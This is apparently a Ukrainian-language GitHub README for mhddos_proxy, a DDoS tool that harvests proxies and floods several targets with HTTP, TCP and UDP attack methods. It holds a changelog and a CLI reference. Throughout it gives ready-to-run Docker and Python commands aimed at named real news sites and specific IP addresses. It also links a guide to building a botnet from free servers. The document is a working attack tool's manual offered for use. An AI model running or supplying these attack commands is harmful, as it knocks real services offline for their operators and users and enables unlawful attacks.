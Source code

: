 ## Скрипт для DDoS-у сайтів, який автоматично шукає та підтягує робочі проксі в атаку  

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### ⏱ Останні оновлення

- **23.04.2022** 
  - Змінено прапорець `--vpn` - тепер ваш IP/VPN використовується **разом** із проксі, а не замість. Щоб досягти попередньої поведінки, використайте `--vpn 100`
- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)

<details>
  <summary>📜 Раніше</summary>

- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі
- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS.
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [1. Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --udp-threads 1        Total number of threads to run for UDP sockets (defaults to 1)
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT
де `protocol` може бути одним з 3-ох: http | socks4 | socks5, якщо `protocol`не вказувати, то буде обрано за замовчуванням - http  
наприклад для публічного проксі: protocol=socks4 IP=114.231.123.38 PORT=3065 формат буде таким:  
```shell
socks4://114.231.123.38:3065
```
а для приватного: protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass формат може бути одним з таких:  
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де proxies.txt - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)

